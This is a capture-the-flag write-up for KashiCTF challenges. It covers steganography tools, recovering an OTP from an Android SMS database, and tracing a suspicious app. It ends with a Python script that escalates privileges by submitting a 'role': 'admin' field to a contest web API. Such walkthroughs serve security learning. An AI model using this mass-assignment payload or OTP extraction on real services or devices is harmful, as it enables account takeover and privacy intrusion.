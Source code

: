 ![image](https://hackmd.io/_uploads/r1nQLWscJx.png)
**Flag: KashiCTF{THEYWEREREALLLLYCOOKING}**
### Look at Me
This problem use SilentEye tool to solve.
![image](https://hackmd.io/_uploads/Sk3E8Wscyx.png)
**Flag: KashiCTF{K33p_1t_re4l}**
### Do Not Redeem #1
The sms database will be in the file ```/data/data/com.android.providers.telephony/databases/mmssms.db```
Open mmssms.db file with DB browser and we got this 
![image](https://hackmd.io/_uploads/HkurUZj5yl.png)
Then browse the sms data in sms table and find for OTP sms
![image](https://hackmd.io/_uploads/SJUI8-s5yx.png)
**Flag: KashiCTF{839216_1740251608654}**
### Do Not Redeem #2
In the first problem, we can see the timestamp of the OTP sms is 1740251608654
![image](https://hackmd.io/_uploads/SkYPU-o9Jg.png)
So it gonna be 02:13(in my time display) and we can find there's only 5 package updated after that sussy OTP
![image](https://hackmd.io/_uploads/r14_8Wo5ke.png)
Then i give it a try to take a closer look on calendar(41kb really????) and that package got changed before the Amazon package so that's getting more sussy
So i submited the flag and it's correct.
**Flag: KashiCTF{com.google.calendar.android}**
### Stego Gambit
This problem actually easy but it wasted me alot of time
So here's the given image from the chall
![image](https://hackmd.io/_uploads/SJlq8bs5yx.png)
So first i import the picture into HxD and found something in the header 
![image](https://hackmd.io/_uploads/r1jiL-oqkx.png)
```Use the moves as a key to the flag, separated by _```
To find the moves, we just need to make the similar board on lichess and just leave the bot playing it(actually if white move first that's impossible because it's already check)
![image](https://hackmd.io/_uploads/HyU3U-o5Jx.png)
So 2 moves gonna be ```1. Bh1 Kxa2 2. Qg2#```
**Key: Bh1Kxa2_Qg2#**(i keep spamming Bh1_Kxa2_Qg2# freak)
With that pro key moment we gonna use steghide to extract something in image
![image](https://hackmd.io/_uploads/SyW68bocJg.png)
**Flag: KashiCTF{573g0_g4m617_4cc3p73d}**
# Web
### SuperFastApi
```python=
import requests

url = "http://kashictf.iitbhucybersec.in:10628"
data = {
  "fname": "3HLD",
  "lname": "string",
  "email": "string",
  "gender": "string",
  "role": "admin"
}
res = requests.post(url+'/create/3HLD',json=data)
print(res.text)
res = requests.put(url+'/update/3HLD',json=data)
res = requests.get(url+'/flag/3HLD')
```